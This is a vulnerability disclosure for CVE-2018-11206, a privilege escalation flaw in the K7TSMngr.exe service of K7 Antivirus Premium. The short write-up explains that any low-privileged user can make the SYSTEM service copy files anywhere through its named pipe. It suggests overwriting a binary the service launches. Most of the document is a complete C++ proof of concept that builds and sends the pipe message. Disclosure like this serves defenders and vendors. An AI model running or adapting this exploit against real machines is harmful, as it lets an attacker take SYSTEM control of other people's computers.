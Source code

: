 # CVE-2018-11206

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7TSMngr.exe 16.0.0.70*

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Using the named pipe \\\\.\\pipe\\K7TSMngrService1 and the function code 0x1003E, you can use the K7TSMngr service (running at SYSTEM) to copy files to/from anywhere on the system using the COPW command. This is accessible from a LOW privileged account. This allows you to bypass filing system security. The PoC will perform the copy, and to achieve a LPE you simply overwrite a binary that is run as SYSTEM. E.g. K7TSHlpe.exe which is periodically launched by the K7TSMngr service. In this handler, there is other filing system functionality which should be locked down.

The specific handler function is sub_40CC40.


# PoC Code
```C++
#include <Windows.h>
#include <stdio.h>

/////////////////////////////////////
// Common code to talk to the Pipe //
/////////////////////////////////////
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

// Global pipe handle
HANDLE g_hPipe = INVALID_HANDLE_VALUE;

/*
Description:
    Opens the comms pannel to the pipe

Parameters:
    N/A
    
Returns:
    TRUE on success, otherwise false.
*/
BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

/*
Description:
    Calls the pipe function for the second time with the function code after it has been initialized.

Parameters:
    dwFunctionId    Id/Code to call
    pInput          Input buffer
    dwInSize        Input buffer size, in bytes
    pOutput         Output bfufer
    dwOutSize       Output bfufer size, in bytes

Returns:
    TRUE on success, otherwise false.
*/
BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		if (!InitPipe())
		{
			return FALSE;
		}
	}

	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

/*
Description:
    Allocate memory on a page boundary.

Parameters:
    dwSize:     Size, in bytes, to allocate

Returns:
    Allcoated buffer, or NULL.
*/
PVOID AllocPrecise(DWORD dwSize)
{
	DWORD dwPageSize = ((dwSize + 4096 - 1) / 4096) * 4096;
	PBYTE pOffset = (PBYTE)VirtualAlloc(NULL, dwPageSize, MEM_COMMIT, PAGE_READWRITE);

	if (dwSize % 0x1000 == 0)
	{
		return pOffset;
	}
	pOffset += 4096 - (dwSize % 4096);
	return pOffset;
}
/////////////////////////////
// End of common pipe code //
/////////////////////////////

/*
Description:
    Gets the K7TSMngr service to call Kernel32!CopyFileW with whatever we pass through to it.

Parameters:
    pszSource   Source file to pass through to CopyFileW
    pszDest     Destination location to pass through

Returns:
    N/A
*/
VOID Vuln_LogicFlaw_CopyFile(PWSTR pszSource, PWSTR pszDest)
{
/*
Vulnerability
    Type: 
        Logical Flaw, not authenticated access to priveleged function

    Description: 
        Can copy files to anywhere as it is done by a SYSTEM level process.
        Very easy to get a LPE from here, or anything else
*/

	PVOID pData = AllocPrecise(0x8000);
	// 434f5057		COPW
	DWORD dwAction = 0x434f5057;
	memcpy(pData, &dwAction, 4);
	PWSTR pszData = (PWSTR)(((PBYTE)pData) + 4);

	wcscat(pszData, pszSource);
	pszData += wcslen(pszSource) + 1;

	wcscat(pszData, pszDest);
	pszData += wcslen(pszDest) + 1;

	PDWORD pdwData = (PDWORD)pszData;
	*pdwData = 1;

	DWORD dwSize = 4 + ((wcslen(pszSource) + wcslen(pszDest) + 2) * 2) + 4;

	CallPipeFunction(0x1003E, (PBYTE)pData, dwSize, NULL, 0);
}

int wmain(int argc, wchar_t** argv)
{
	if (argc != 3)
	{
		printf("Usage: <Source> <Dest>\r\n");
		return -1;
	}

	Vuln_LogicFlaw_CopyFile(argv[1], argv[2]);
}

```